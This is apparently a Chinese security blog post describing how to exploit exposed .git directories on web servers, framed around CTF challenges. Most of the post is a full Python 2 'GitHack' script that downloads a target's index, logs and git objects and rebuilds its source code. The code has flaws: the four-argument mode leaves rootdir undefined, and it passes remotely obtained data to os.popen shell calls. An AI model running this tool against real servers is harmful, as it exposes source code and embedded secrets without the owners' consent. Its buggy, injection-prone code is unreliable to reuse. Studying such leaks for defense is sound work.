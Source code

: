 ```yaml
---
title: git目录泄漏利用工具
date: 2018-01-22 18:42:00
tags: [WEB]
categories: WEB安全
copyright: true
---
```

## 前言
说找时间写，今天终于动手来写一波有关漏洞利用工具的博文。
git目录泄漏导致了源码泄漏，是一种很严重的过失。说是过失是因为它其实很容易避免。其实在ctf比赛中还是遇到过很多这样的题型，只要能把整个目录中的重要文件下载下来就可以了，那么怎样下载，就是下面要写的了。
## 知识点
要想下载git目录首先要知道这个目录下的文件都有啥含义。
-  hooks:这个目录存放一些shell脚本，可以设置特定的git命令后触发相应的脚本；在搭建gitweb系统或其他git托管系统会经常用到hook script
- info:包含仓库的一些信息
-  logs:保存所有更新的引用记录
-  objects:所有的Git对象都会存放在这个目录中，对象的SHA1哈希值的前两位是文件夹名称，后38位作为对象文件名
-  refs:这个目录一般包括三个子文件夹，heads、remotes和tags，heads中的文件标识了项目中的各个分支指向的当前commit
- COMMIT_EDITMSG:保存最新的commit message，Git系统不会用到这个文件，只是给用户一个参考
- config:这个是GIt仓库的配置文件
- description:仓库的描述信息，主要给gitweb等git托管系统使用
- index:这个文件就是我们前面提到的暂存区（stage），是一个二进制文件
-  HEAD:这个文件包含了一个档期分支（branch）的引用，通过这个文件Git可以得到下一次commit的parent
- ORIG_HEAD:HEAD指针的前一个状态

上面的内容网上很多，可以多了解了解。还有git的基本操作如果都理解的话就可以进行下面的内容了。
## 分析利用方法
其实git目录中是没有源码的明文，也就是说要得到源码，还要使用git命令进行转换的。而且，只要能下载到对象文件就可以了。我有两种想法。
- 一般情况下，在暂存区中记录的对象包含了大部分想要获得的文件，说大部分是因为可能有一部分被删除了。所以只分析index文件可能会漏掉一些。
- 还有一种是分析logs/HEAD文件，这个文件记录了仓库从创建到最后所有的提交记录以及分支变换等等的记录。但是它并不记录`git add .`等的添加命令，也就是说没有提交的对象分析不到。但是它会记录已经删除的文件和不同版本的文件。
鉴于两种方法的互补，可以按照两种方法分别写出程序，在没有头绪之时考虑是否是方法的弊端导致的漏掉文件。
## 源码

```python
# coding:utf-8
# python2
import os,sys
try:
    import requests
except:
    print 'Lost "requests" Module.\nyou can execute "pip install requests" to install this module.'
    exit(1)

class GitHack:
    #params->hosturl: 远程git仓库url，如：http://url/.git/
    #       ->rootdir: 本地会在这个目录建立git版本库
    def __init__(self,hosturl,rootDir='githack'):
        self.host = hosturl.strip('/')+'/'
        self.dir = rootDir

        if not os.path.exists(rootDir):
            os.makedirs(rootDir)
        os.chdir(rootDir)
        os.popen('git init')

    def getFile(self,urlpath):
        '''
        功能：从指定的相对url中获取文件，并存储在本地（使用相同的相对路径）
        参数：urlpath是文件相对于self.host的路径
        注意：本函数会检查目录路径是否存在，只捕获reqeusts.get的异常
        '''
        try:
            r = requests.get(self.host+urlpath)
        except:
            print 'Error!the {} requests failed!'.format(self.host+'.git/'+urlpath)
            return False
        if r.status_code == 404:
            print 'Error!no such file {}'.format(urlpath)
            return False
        a = urlpath.rfind('/')
        if -1 != a:
            if not os.path.exists('.git/'+urlpath[:a]):
                os.makedirs('.git/'+urlpath[:a])
        f = open('.git/'+urlpath,'w')
        f.write(r.content)
        r.close()
        f.close()
        print 'Download file {} ok!'.format(urlpath)
        return True

    def fromIndex(self):
        '''
        功能：还原暂存区的对象
        '''
        self.getFile('index')
        rst = os.popen('git ls-files --stage').readlines()
        queryDic = {}
        sucDic = {}
        for i in rst:
            a = i.find(' ')
            b = i.rfind(' ')
            c = i.rfind('\t')
            queryDic[i[a+1:b]] = i[c+1:-1]
        for f in queryDic:
            if(self.getFile('objects/{}/{}'.format(f[:2],f[2:]))):
                sucDic[f] = queryDic[f]
        return sucDic

    def fromLogs(self):
        '''
        功能：从logs/HEAD文件开始，还原所有对象
        '''
        self.getFile('index')
        self.getFile('logs/HEAD')
        self.getFile('HEAD')
        self.getFile('refs/heads/master')
        logs = []
        queryList = []
        sucDic = {}
        with open('.git/logs/HEAD','r') as f:
            logs = f.readlines()
        for l in logs:
            a = l.find(' ')
            queryList.append(l[a+1:a+1+40])
        for f in queryList:
            if self.getFile('objects/{}/{}'.format(f[:2],f[2:])):
                #tree
                s = os.popen('git cat-file -p {}'.format(f)).readlines()[0]
                s = s[5:-1]
                sucDic.update(self.__getTree(s))
        return sucDic

    def __getTree(self,f,prefix=''):
        '''
        功能：递归获取指定tree类型对象下的所有blob对象
        参数：f 是指定对象的sha1值，他应该是tree类型
        prefix 是前一个tree对象对应的目录，它使用来还原文件的原始路径的。类似于 objects/
        
        '''
        sucDic = {}
        if self.getFile('objects/{}/{}'.format(f[:2],f[2:])):
            for i in os.popen('git cat-file -p {}'.format(f)).readlines():
                d = i.find(' ')+1
                if 'tree' == i[d:d+4]:
                    a = i.find('tree')+5
                    b = i.rfind('\t')
                    sucDic.update(self.__getTree(i[a:b],prefix+i[b+1:-1]+'/'))
                    continue
                
                a = i.find('blob')+5
                b = i.rfind('\t')
                if self.getFile('objects/{}/{}'.format(i[a:a+2],i[a+2:b])):
                    sucDic[i[a:b]] = prefix+i[b+1:-1]
        return sucDic

    def saveFile(self,sucDic):
        '''
        功能：根据sucDic获取文件的内容,他并不是必要的函数，他只是将所有blob对象还原成文件
        参数：sucDic类似于{'111...1':'1.txt'}键为对象sha1值，值为对应文件名路径
        '''
        for i in sucDic:
            text = os.popen('git cat-file -p {}'.format(i)).read()
            #mkdir
            a = sucDic[i].rfind('/')
            if(-1 != a):
                if not os.path.exists(sucDic[i][:a]):
                    os.makedirs(sucDic[i][:a])
            f = open(sucDic[i],'w')
            f.write(text)
            f.close()
            print 'save file {}.'.format(sucDic[i])

def usage():
    print '''usage:python githack.py hosturl [rootdir] [fromlogs]
                    params：hosturl为包含git目录的url
                            rootdirgit目录会下载到该目录
                            fromlogs可以为任意值即可变为第二个模式。
                    本脚本有两个模式（默认1）：1.下载暂存区的文件。2.从logs中遍历所有对象'''

def main():
    '''
    没怎么处理异常，也没美化命令行，有时间做
    '''
    log = False
    if len(sys.argv)==3:
        rootdir = sys.argv[2]
    elif len(sys.argv)==2:
        rootdir = 'githack'
    elif len(sys.argv)==4:
        log = True
    else:
        usage()
        return
    g = GitHack(sys.argv[1],rootdir)
    if log:
        print 'from Logs mod!'
        sucDic = g.fromLogs()
    else:
        print 'from index mod!'
        sucDic = g.fromIndex()
    #print sucDic
    print ''
    g.saveFile(sucDic)

main()
```
源码也可以到我的码云上下载 [我的githack](https://gitee.com/ktstart/githack "我的githack")
## 总结
这个工具很早之前就有简洁版本，现在重新写了一遍，对git工具的使用和git目录又熟悉了不少。虽然网络上早有此类工具，但自己写出来还是有不少感悟，以后多写多练。